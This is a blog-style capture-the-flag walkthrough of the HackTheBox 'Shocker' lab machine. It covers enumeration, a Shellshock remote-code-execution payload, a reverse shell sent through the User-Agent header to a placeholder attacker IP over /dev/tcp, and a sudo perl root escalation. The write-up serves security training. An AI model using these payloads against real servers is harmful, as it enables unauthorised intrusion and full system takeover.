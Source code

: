 ```yaml
---
layout: post
title: HackTheBox Shocker Walkthrough
image: /assets/img/blog/shocker/shellshock.png
accent_image: 
  background: url('/assets/img/blog/shocker/shellshock.png') center/cover
  overlay: false
accent_color: '#ccc'
theme_color: '#ccc'
description: >
  In this post you will find a step by step resolution walkthrough of the Shocker machine on HTB platform 2023.
invert_sidebar: true
---
```


# HackTheBox Shocker Walkthrough

Shocker is an easy machine that demonstrates the severity of the renowned Shellshock exploit, a vulnerability discovered in 2014 which affected millions of public-facing servers. 
* toc
{:toc}

## Enumeration
To enumerate the machine a first nmap scan to discover the open TCP ports on the machine was performed. Also when the open ports 
were retrieved a more in depth scan including fingerprinting was issued. With the following commands:
~~~bash
# First nmap scan
sudo nmap -sS -p- --min-rate 500 --open 10.10.10.56 -Pn -n -oG recon
# Exhaustive scan of the open ports
nmap -p80,2222 -sCV -Pn -n -oN openports 10.10.10.56
~~~

The results obtained by this scans showed some interesting open ports:
![800x400](/assets/img/blog/shocker/nmap.png "Nmap enumeration")
* Port 80 is open and is hosting a HTTP server, Apache httpd 2.4.18 
* Port 2222 is open and from the obtained banner looks like a ssh service version: OpenSSH 7.2p2

From the nmap scan we can see this is a linux machine, probably a Ubuntu distro.
## Web enumeration
As there are only two ports open and ssh is often not vulnerable by itself, we started enumeration via port TCP 80. Fingerprinting the website returns similar information as the obtained executing the nmap scripts. 
Moving on and visiting the website we obtain... ????coronavirus???? Anyway...
![800x400](/assets/img/blog/shocker/bug.png "Web frontpage")

Further enumeration of the site via directory bruteforcing for hidden directories and files with gobuster using a +220k entries wordlist and appending extensions as sh, php & txt was performed.
~~~bash
gobuster dir --url http://10.10.10.56/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html,sh,pl -t 200
~~~
Suprisingly nothing interesting was found via this scan, but as this is running apache we checked if a `cgi-bin` directory exists.
> As cgi-bin directory is only reachable by appending a backslash (http://website/cgi-bin/) it is often not found on automatic directory searches.
{:.lead}

As `cgi-bin` exists we repeated our scan using it as a base directory.
~~~bash
gobuster dir --url http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html,sh,pl -t 200
~~~
![800x400](/assets/img/blog/shocker/gobuster.png "Directory bruteforce")

Bingo! a suspicious executable file named `user.sh` was found. After visiting the new page we get a download of the file containg what looks like the output of the `uptime command execution`
![800x400](/assets/img/blog/shocker/user.png "user.sh")

At this point researching on google was the key, (AS IT IS MOST OF THE TIMES!) A valuable resource was found.
![800x400](/assets/img/blog/shocker/google.png "Google search")

ohhhh, So that is why this machine is called Shocker, Interesting…

After reviewing how the attack works, we intercepted a request to `http://10.10.10.56/cgi-bin/user.sh` with `burpsuite`, and sent it to the `repeater` to craft custom requests. 
To start, we crafted a request that if successful should return the id of the context user.
~~~bash
() { :; }; echo; echo; /bin/bash -c 'id'
~~~
![800x400](/assets/img/blog/shocker/burp1.png "burp")
Success! we got `Remote Command Execution` on the server.
## Okay nice, but what is ShellShock?
Shellshock is a security vulnerability in the Bash shell on Unix-based systems. It allows attackers to execute malicious code by exploiting how Bash handles environment variables. 
This could happen through various services, like web servers. Once exploited, attackers could gain unauthorized access to the system.

To protect against Shellshock, system administrators should promptly apply patches and updates provided by their software vendors. It's crucial to keep systems secure and regularly monitor for potential threats.

## Getting a foothold
As we got RCE, we tried to get access to the machine sending a malicious payload to get a reverse shell on a previously set listener. Lets start doing that:
~~~bash
nc -lvnp 443
~~~
![800x400](/assets/img/blog/shocker/nc.png "Nc listener")

Now from `burpsuite` we sent the folowing malicious payload:
~~~bash
User-Agent: () { :;}; echo; /bin/sh -i >& /dev/tcp/<attacker_ip>/443 0>&1
~~~
![800x400](/assets/img/blog/shocker/burp2.png "Malicious payload")

On our side, a connection was recieved. Great we are inside! 😈

![800x400](/assets/img/blog/shocker/shell.png "Reverse shell")
## TTY treatment
To get a more stable shell the following commands were executed:
~~~bash
script /dev/null -c bash
#Press:
ctl+z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
stty rows 59 columns 236
~~~ 
At this point we got the flag located at `/home/shelly/user.txt`

## Privilege Escalation
To escalate privilege to root we started with an automatic enumeration performed with the `linpeas.sh` tool. 
Linpeas found information of all potential vectors that can be used to escalate privilege to root. In this case it looks like our user `Shelly` can execute the perl binary under the root context, 
which is potentially a security risk. To check if this binary is vulnerable to privesc we checked `GTFObins` ([https://gtfobins.github.io/gtfobins/perl/](https://gtfobins.github.io/gtfobins/perl/)), 
a very useful resource for privesc. We also confirmed the result by running the `sudo -l` command.
![800x400](/assets/img/blog/shocker/sudo.png "Sudo -l output")

Here is the exploit snippet from GTFObin website.
~~~bash
sudo perl -e 'exec "/bin/sh";'
~~~

At this point, after running the command  we successfully pwned the machine and we have got complete control of the system 💀💀💀

![800x400](/assets/img/blog/shocker/root.png "Root shell")

Last but not least we retrieved the flag located at `/root/root.txt`
